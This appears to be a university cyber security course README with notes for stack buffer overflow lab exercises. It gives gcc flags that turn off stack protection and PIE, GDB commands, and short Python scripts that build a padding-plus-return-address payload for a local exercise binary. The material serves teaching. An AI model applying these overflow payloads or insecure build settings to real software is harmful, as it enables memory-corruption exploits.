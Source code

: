 # UNIMORE-cyber-security

```commandline
gcc -w -m32 -fno-stack-protector -fno-pic -no-pie -g -o
```

```commandline
python3 -c 'print("A"*number)' | ./esercizio1
```

# GDB
```commandline
$ gdb esercizio1
(gdb) disassamble main
```

# BE AWARE!!
```commandline
mov (or movb, movl, movw, movq)
lea
cmpl
```

# python2
```python
a = ""
for _ in range(10):
    a += "A"
print(a + '\x6b\x84\x04\x08')
```

# python3
```python
import sys

length = 10
payload = b"A" * length + b'\x6b\x84\x04\x08'
sys.stdout.buffer.write(payload)
```
